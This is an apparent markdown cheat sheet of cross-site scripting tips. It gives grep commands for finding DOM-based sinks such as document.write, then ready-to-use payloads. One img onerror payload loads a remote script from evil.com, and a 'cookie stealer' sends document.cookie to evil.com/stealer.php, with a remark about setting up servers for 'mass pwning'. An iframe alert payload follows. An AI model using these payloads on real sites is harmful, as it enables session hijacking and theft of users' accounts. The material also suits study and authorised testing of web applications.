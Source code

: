 # XSS Tips

---
## DOM Based
* Hunting (do this where downloaded JS folder is)
    * Simple `document.write` search:
        ```bash
        grep -r "document.write" ./ --include "*.html"
        ```
    * If the user input is a variable from another js, search the variable with `<VARIABLE>`
        * *note: there could the a space between the variable being assigned and the '=' sign*\
        ```bash
        grep -ER "<VARIABLE>[ ]+=" ./
        ```
## Quick PoC Payloads
* `img` tag to CSRF
```
<img src=a onerror="x=document.createElement('script');x.src='https://evil.com/really_evil.js';document.body.appendChild(x)" />
```
* Class cookie stealer
    * You may setup receiving servers, APIs, webhook for mass pwning
```
<img src=a onerror="location.href='https://evil.com/stealer.php?cookie='+document.cookie;">
```
* iFrame
```
<iframe src="javascript:alert(1)">
```
